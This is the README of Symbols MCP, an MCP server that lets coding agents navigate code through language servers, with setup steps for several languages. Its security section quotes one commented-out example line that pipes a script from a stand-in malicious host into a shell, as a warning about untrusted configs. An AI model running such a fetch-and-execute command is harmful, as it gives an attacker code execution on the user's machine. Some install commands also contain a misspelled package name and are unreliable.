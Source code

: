 <div align="center">

# Symbols MCP

Read, inspect and navigate through codebase symbols by connecting to a Language Server

![NPM Version](https://img.shields.io/npm/v/%40p1va%2Fsymbols?style=flat)


</div>

## Introduction

By connecting to a Language Server of choice this MCP server makes it easy and efficient for coding agents to explore and navigate the codebase and its dependencies.
The server offers a minimal toolset intended to be simple to use and light on the model's context.

### Available Tools

- **`outline`**: returns an outline of code symbols in a file. Either compact or with a small code snippet
- **`inspect`**: returns docs, signature, declaration and implementation locations for a symbol. For local and third-party ones (e.g. npm, NuGet, ... )
- **`search`**: returns matching symbols across the codebase
- **`references`**: finds all references of a symbol across the codebase
- **`rename`**: renames all references of a symbol across the codebase
- **`diagnostics`**: returns active diagnostics in a given file
- **`completion`**: returns a list of contextual completions at a given location
- **`logs`**: returns Language Server own logs for troubleshooting

## Installation

### Quickstart (`run` command)

Use the `run` command to start the MCP server with the desired Language Server inline

`npx -y "@p1va/symbols" run [run options] <lsp-cmd> [lsp args]`

For simplicity examples follow Claude Code configuration schema

<details>
<summary>
  &nbsp;
  <picture>
    <img src="https://img.shields.io/badge/-3670A0?&logo=python&logoColor=ffdd54" valign="middle">
  </picture>
  &nbsp;
  <b>Pyright</b>
</summary>

### Pyright

#### Installation

`npm install -g pyright`

#### Verify Installation

`pyright-langserver` should be available

#### Configuration

```jsonc
{
  "mcpServers": {
    "symbols": {
      "command": "npx",
      "args": [
        "-y", "@p1va/symbols@latest", "run",
        "-w", "optional/path/to/workspace",
        "pyright-langserver", "--stdio"
      ]
    }
  }
}
```

> ℹ️ If you'd rather avoid installing **pyright** globally and are fine with a slower start up, you can substitute `pyright-langserver --stdio` in the JSON above with `npx -y -p pyright pyright-langserver --stdio`

#### Troubleshooting

**Startup Failure**

To troubleshoot any failure on startup launch the same command and args found in the MCP configuration in a shell and turn on console output with the `--console` option. This will redirect logs that normally go to a file to the console for both the MCP server and Language Server.

> ⚠️ `--console` option is intended only to speed up troubleshooting and will prevent MCP server from working properly.

```sh
npx -y @p1va/symbols@latest run \
  -w path/to/root/of/project \
  --console \
  pyright-langserver --stdio
```

**Virtual Env not found**

If the `logs` tool output includes errors or the `diagnostics` tool only reports module import errors even when none appear in the IDE these might be signs of Pyright not detecting the virtual environment.

You can update your `pyproject.toml` to correctly point it to the virtual environment location.

```toml
[tool.pyright]
venvPath = "."
venv = ".venv"
```

</details>

<details>

<summary>
  &nbsp;
  <picture>
    <img src="https://img.shields.io/badge/-%23007ACC.svg?logo=typescript&logoColor=white" valign="middle">
  </picture>
  &nbsp;
  <b>TypeScript Language Server</b>
</summary>

### TypeScript Language Server

#### Installation

`npm install -g typescipt-language-server`

#### Verify Installation

`typescipt-language-server --version`

#### Configuration

```jsonc
{
  "mcpServers": {
    "symbols": {
      "command": "npx",
      "args": [
        "-y", "@p1va/symbols@latest", "run",
        "-w", "optional/path/to/workspace",
        "typescript-language-server", "--stdio"
      ],
      "env": {
        // Keep at least one code file open for search to work
        "SYMBOLS_PRELOAD_FILES": "src/index.ts;",
        "SYMBOLS_DIAGNOSTICS_STRATEGY": "push"
      }
    }
  }
}
```

> ℹ️ If you'd rather avoid installing **typescript-language-server** globally and are fine with a slower start up, you can substitute `typescript-language-server --stdio` in the JSON above with `npx -y typescript-language-server --stdio`

#### Troubleshooting

**Startup Failure**

To troubleshoot any failure on startup launch the same command and args found in the MCP configuration in a shell and turn on console output with the `--console` option. This will redirect logs that normally go to a file to the console for both the MCP server and Language Server.

> ⚠️ `--console` option is intended only to speed up troubleshooting and will prevent MCP server from working properly.

```sh
set SYMBOLS_PRELOAD_FILES="src/index.ts" \
set SYMBOLS_DIAGNOSTICS_STRATEGY="push" \
npx -y @p1va/symbols@latest run \
  -w path/to/root/of/project \
  --console \
  typescript-language-server --stdio
```

**No results in search tool**

For the search functionality to work the TS Language Server needs to compute the codebase index and keep in memory.
This is done by keeping at least one code file open at any time.

`SYMBOLS_PRELOAD_FILES="src/index.ts`

</details>

<details>

<summary>
  &nbsp;
  <picture>
    <img src="https://img.shields.io/badge/-blueviolet?logo=dotnet" valign="middle">
  </picture>
  &nbsp;
  <b>Roslyn</b>
</summary>

### Roslyn Language Server

#### Installation

The official C# Language Server is distributed over the [VS IDE NuGet feed](https://pkgs.dev.azure.com/azure-public/vside/_packaging/vs-impl/nuget/v3/index.json) as a self-contained executable.

To facilitate download and extraction we use the `dotnet` CLI with a temporary project file named `ServerDownload.csproj` with the following content:

```xml
<Project Sdk="Microsoft.NET.Sdk">
  <PropertyGroup>
    <PackageNameBase>Microsoft.CodeAnalysis.LanguageServer</PackageNameBase>
    <PackageVersion>5.0.0-1.25353.13</PackageVersion>
    <RestorePackagesPath  Condition=" '$(RestorePackagesPath)' == '' ">/tmp/lsp-download</RestorePackagesPath>
    <ServerPath Condition=" '$(DownloadPath)' == '' ">./LspServer/</ServerPath>
    <TargetFramework>net9.0</TargetFramework>
    <DisableImplicitNuGetFallbackFolder>true</DisableImplicitNuGetFallbackFolder>
    <AutomaticallyUseReferenceAssemblyPackages>false</AutomaticallyUseReferenceAssemblyPackages>
    <RestoreSources>
      https://pkgs.dev.azure.com/azure-public/vside/_packaging/vs-impl/nuget/v3/index.json
    </RestoreSources>
  </PropertyGroup>
  <ItemGroup>
    <PackageDownload Include="$(PackageNameBase).$(Platform)" version="[$(PackageVersion)]" />
  </ItemGroup>
  <Target Name="SimplifyPath" AfterTargets="Restore">
    <PropertyGroup>
      <PackageIdFolderName>$(PackageNameBase.ToLower()).$(Platform.ToLower())</PackageIdFolderName>
      <PackageContentPath>$(RestorePackagesPath)/$(PackageIdFolderName)/$(PackageVersion)/content/LanguageServer/$(Platform)/</PackageContentPath>
    </PropertyGroup>
    <ItemGroup>
      <ServerFiles Include="$(PackageContentPath)**/*" />
    </ItemGroup>
    <Copy SourceFiles="@(ServerFiles)" DestinationFolder="$(ServerPath)%(RecursiveDir)" />
    <RemoveDir Directories="$(RestorePackagesPath)" />
  </Target>
</Project>
```

We then pick the platform identifier matching the machine from this list:

`win-x64`, `win-arm64`, `linux-x64`, `linux-arm64`, `linux-musl-x64`, `linux-musl-arm64`, `osx-x64`, `osx-arm64` or `neutral`

And finally restore the temporary project to trigger the download of the Language Server.

Adjust both `RestorePackagesPath` and `ServerPath` to work on your machine and keep track of the latter.

```sh
ServerPath=$HOME/.csharp-lsp
```

```sh
dotnet restore ServerDownload.csproj \
  /p:Platform=your-platform-id \
  /p:RestorePackagesPath=/tmp/your/download/location \
  /p:ServerPath=$ServerPath
```

#### Verify Installation

To verify the outcome of the installation we run the command below

```sh
$ServerPath/Microsoft.CodeAnalysis.LanguageServer --version
```

#### Configuration

```jsonc
{
  "mcpServers": {
    "symbols": {
      "command": "npx",
      "args": [
        "-y", "@p1va/symbols@latest", "run",
        "-w", "optional/path/to/workspace",
        "dotnet", "$SYMBOLS_ROSLYN_PATH/Microsoft.CodeAnalysis.LanguageServer.dll",
        "--logLevel=Information",
        "--extensionLogDirectory=$SYMBOLS_ROSLYN_PATH/logs",
        "--stdio"
      ],
      "env": {
        "SYMBOLS_WORKSPACE_LOADER": "roslyn",
        "SYMBOLS_ROSLYN_PATH": "$HOME/.csharp-lsp",
      }
    }
  }
}
```

#### Troubleshooting

**Search: No Results Found**

If `search` doesn't find results it's possible to warm up by pre-loading a few files 

`"SYMBOLS_PRELOAD_FILES": "src/Project/Program.cs"`

**Linux: Max Number of Inotify Instances Reached**

If on Linux LSP logs suggest that the maximum number of inotify per user instances has been reached it's possible to increase it with a value greater than the actual

`sudo sysctl fs.inotify.max_user_instances=512`

This allows the Language Server to keep monitoring files in the Solution/Project

Additionally JetBrains has more details on [this issue](https://youtrack.jetbrains.com/articles/SUPPORT-A-1715/Inotify-Watches-Limit-Linux)

</details>

<details>
  
<summary>
  &nbsp;
  <picture>
    <img src="https://img.shields.io/badge/-%2300599C.svg?logo=c%2B%2B&logoColor=white" valign="middle">
  </picture>
  &nbsp;
  <b>Clang</b>
</summary>

### Clang for C/C++

#### Verify Installation

`clangd --help` is available

#### Configuration

```jsonc
{
  "mcpServers": {
    "symbols": {
      "command": "npx",
      "args": [
        "-y", "@p1va/symbols@latest", "run",
        "-w", "optional/path/to/workspace",
        "clangd",
      ],
      "env": {
        "SYMBOLS_DIAGNOSTICS_STRATEGY": "push",
        "SYMBOLS_PRELOAD_FILES": "path/to/file.cpp"
      }
    }
  }
}
```

#### Troubleshooting

> ℹ️ Ensure either `compile_commands.json` is found in the working directory or provide the path where to find it with  `--compile-commands-dir=path/to/dir` 

**Search: No Results Found**

To warm up index generation is possible to pre load and keep a few files opened by providing a list in ` SYMBOLS_PRELOAD_FILES` 


</details>

<details>

<summary>
  &nbsp;
  <picture>
    <img src="https://img.shields.io/badge/-%2300ADD8.svg?logo=go&logoColor=white" valign="middle">
  </picture>
  &nbsp;
  <b>Gopls</b>
</summary>

### Gopls

#### Installation

```sh
go install golang.org/x/tools/gopls@latest
```

#### Verify Installation

```sh
gopls version
```

#### Configuration

```jsonc
{
  "mcpServers": {
    "symbols": {
      "command": "npx",
      "args": [
        "-y", "@p1va/symbols@latest", "run",
        "-w", "optional/path/to/workspace",
        "gopls"
      ],
      "env": {
        "SYMBOLS_DIAGNOSTICS_STRATEGY": "push",
        // Adjust these to your machine
        "GOPATH" : "$HOME/go",
        "GOCACHE": "$HOME/.cache/go-build",
        "GOMODCACHE": "$HOME/go/pkg/mod"
      }
    }
  }
}
```

</details>

<details>

<summary>
  &nbsp;
  <picture>
    <img src="https://img.shields.io/badge/-%23000000.svg?logo=rust&logoColor=white" valign="middle">
  </picture>
  &nbsp;
  <b>Rust-analyzer</b>
</summary>

### Rust-analyzer

#### Installation

```sh
rustup component add rust-analyzer
```

#### Verify Installation

```sh
rust-analyzer --version
```

#### Configuration

```jsonc
{
  "mcpServers": {
    "symbols": {
      "command": "npx",
      "args": [
        "-y", "@p1va/symbols@latest", "run",
        "-w", "optional/path/to/workspace",
        "rust-analyzer"
      ]
    }
  }
}
```

</details>

<details>
  
<summary>
  &nbsp;
  <picture>
    <img src="https://img.shields.io/badge/-ED8B00?logo=openjdk&logoColor=white" valign="middle">
  </picture>
  &nbsp;
  <b>Eclipse JDT</b>
</summary>

### Eclipse JDT Language Server

#### Installation

Follow installation instructions on the [Project's GitHub README](https://github.com/eclipse-jdtls/eclipse.jdt.ls?tab=readme-ov-file#installation)

#### Verify Installation

```sh
$SYMBOLS_JDTLS_PATH/bin/jdtls --help
```

#### Configuration

```jsonc
{
  "mcpServers": {
    "symbols": {
      "command": "npx",
      "args": [
        "-y", "@p1va/symbols@latest", "run",
        "-w", "optional/path/to/workspace",
        "$SYMBOLS_JDTLS_PATH/bin/jdtls",
        "-configuration", "$HOME/.cache/jdtls/config",
        "-data", "$HOME/.cache/jdtls/workspace/$SYMBOLS_WORKSPACE_NAME"
      ],
      "env": {
        "SYMBOLS_DIAGNOSTICS_STRATEGY": "push",
        "SYMBOLS_JDTLS_PATH": "$HOME/.java-lsp/jdtls",
      }
    }
  }
}
```

</details>

### Auto-detection (`config` & `start` commands)

If you prefer to keep the MCP confg file clean, it's possible to move Language Server definitions out to a `language-servers.yaml` file and define when to launch them depending on detected files.

- `npx -y "@p1va/symbols@latest" config init --global`
  - Linux: `~/.config/symbols-nodejs/language-servers.yaml`
  - MacOS: `~/Library/Preferences/symbols-nodejs/language-servers.yaml`
  - Windows: `%APPDATA%\symbols-nodejs\Config\language-servers.yaml`
- `npx -y "@p1va/symbols@latest" config init -w path/to/workspace`
  - `path/to/workspace/language-servers.yaml`
- `npx -y "@p1va/symbols@latest" config init`
  - `./language-servers.yaml`


`code $(npx -y @p1va/symbols config path)`

- **Override** via CLI arg `npx -y @p1va/symbols@latest --config path/to/language-servers.yaml`

#### Troubleshooting

Active config can be seen with `npx -y @p1va/symbols@latest config show`

#### Language Server Resolution

The MCP server launches the Language Server listing in its `workspace_files` any file detected in the current working directory. 
e.g. pyproject.toml launches Pyright, package.json TypeScript

These mappings can be updated or extended by modifying the configuration.

Language Server resolution can be made explicit by providing the exact Language Server to launch with this flag `--lsp name-of-ls`

</details>

#### Environment Variables

The MCP server supports environment variables for configuration. All variables use the `SYMBOLS_` prefix to clearly separate MCP server configuration from LSP-specific environment variables.

**MCP Server Configuration** (apply globally to the MCP server):

- `SYMBOLS_WORKSPACE` - Workspace directory path (defaults to current directory)
- `SYMBOLS_LSP` - LSP server name to use (overrides auto-detection)
- `SYMBOLS_LOGLEVEL` - Log level: `debug`, `info`, `warn`, or `error` (defaults to `info`)
- `SYMBOLS_CONFIG_PATH` - Path to configuration file

**LSP-Specific Configuration** (apply to the active LSP server):

- `SYMBOLS_WORKSPACE_LOADER` - Workspace loader type: `default`, `roslyn`, etc.
- `SYMBOLS_DIAGNOSTICS_STRATEGY` - Diagnostics strategy: `push` or `pull` (defaults to `push`)
- `SYMBOLS_DIAGNOSTICS_WAIT_TIMEOUT` - Diagnostics wait timeout in milliseconds (100-30000, defaults to 2000)
- `SYMBOLS_PRELOAD_FILES` - Colon-separated (Unix) or semicolon-separated (Windows) list of files to preload during initialization

Configuration precedence: **Environment Variables** > **YAML Config** > **Defaults**

Example:
```bash
# Set diagnostics to pull mode with extended timeout
export SYMBOLS_DIAGNOSTICS_STRATEGY=pull
export SYMBOLS_DIAGNOSTICS_WAIT_TIMEOUT=5000

# Use Roslyn workspace loader for C#
export SYMBOLS_WORKSPACE_LOADER=roslyn

# Preload specific files (Unix/Linux/macOS - use : as delimiter)
export SYMBOLS_PRELOAD_FILES="src/index.ts:src/types.ts:src/utils.ts"

# Preload specific files (Windows - use ; as delimiter)
# set SYMBOLS_PRELOAD_FILES=src\index.ts;src\types.ts;src\utils.ts

# Start the MCP server
npx -y @p1va/symbols@latest
```

## Security Considerations

### Configuration File Trust

**⚠️ IMPORTANT**: Configuration files (`language-servers.yaml`) contain commands that are executed as subprocesses. Only use configuration files from trusted sources.

- **DO** use configuration files you create yourself
- **DO** use configuration files from trusted team members or official repositories
- **DO NOT** load configuration files from untrusted or user-uploaded sources
- **DO NOT** execute configs downloaded from unknown sources without review

Commands in configuration files are parsed and executed directly. A malicious configuration file could execute arbitrary commands on your system.

**Example of what to check in configs:**

```yaml
language-servers:
  typescript:
    command: npx -y typescript-language-server --stdio  # ✅ Safe - well-known LSP
    # command: curl http://malicious.com/script.sh | sh  # ❌ Dangerous!
```

### Environment Variables

Configuration files support environment variable expansion. Be cautious when using configs that reference environment variables, especially if those variables might contain sensitive data or influence command execution.

## Development

- `pnpm lint` outputs the lint violations
- `pnpm lint:fix` attempts to fix lint violations
- `pnpm format` formats the codebase
- `pnpm dev` starts in development mode
- `pnpm build` runs the linter and build
- `pnpm start` starts the built artifacts
- `pnpm test:unit` runs the unit tests
- `pnpm test:integration:{language id}` runs the integration tests for a given language



### 1. Add MCP Server

Add the MCP server to your coding agent of choice

<details>

<summary>
  &nbsp;
  <picture>
    <img src="https://img.shields.io/badge/Claude_Code-555?logo=claude" valign="middle">
  </picture>
</summary>

### Claude Code

To install the MCP server add this to your repository `.mcp.json` file

```json
{
  "mcpServers": {
    "symbols": {
      "command": "npx",
      "args": [
        "-y",
        "@p1va/symbols@latest"
      ]
    }
  }
}
```

or

```sh
claude mcp add symbols -- npx -y @p1va/symbols@latest
```
</details>

<details>

<summary>
  &nbsp;
  <picture>
    <img src="https://img.shields.io/badge/OpenAI_Codex-%23412991?logo=openai&logoColor=white" valign="middle">
  </picture>
</summary>

### OpenAI Codex

To install the MCP server add this to your global `$HOME/.codex/config.toml` file

```toml
[mcp_servers.symbols]
command = "npx"
args = ["-y", "@p1va/symbols@latest"]
```
</details>

<details>
  
<summary>
  &nbsp;
  <picture>
    <img src="https://img.shields.io/badge/Gemini_CLI-8E75B2?logo=google%20gemini&logoColor=white" valign="middle">
  </picture>
</summary>  

### Google Gemini CLI

To install the MCP server add this to your repository `.gemini/settings.json` file

```json
{
  "mcpServers": {
    "symbols": {
      "command": "npx",
      "args": ["-y", "@p1va/symbols@latest"],
      "env": {},
      "cwd": ".",
      "timeout": 30000,
      "trust": true
    }
  }
}
```

</details>

<details>

<summary>
  &nbsp;
  <picture>
    <img src="https://img.shields.io/badge/GitHub_Copilot-8957E5?logo=github-copilot&logoColor=white" valign="middle">
  </picture>
</summary>

### GitHub Copilot

To install the MCP server add this to your repository's `.vscode/mcp.json` file

```json
{
  "servers": {
    "symbols": {
      "type": "stdio",
      "command": "npx",
      "args": ["-y", "@p1va/symbols@latest"]
    }
  }
}
```

</details>


**Rules**

- Everything after the end of command option (`--`) is treated as command to Language Server is provided after 
  - Ensure modality is stdio (e.g. `--stdio` flag)
  - Ensure no console output other than JSON-RPC are emitted


- `--workspace path/to/workspace`
- `--loglevel`
- `--debug`



Install the Language Servers relevant to your codebases


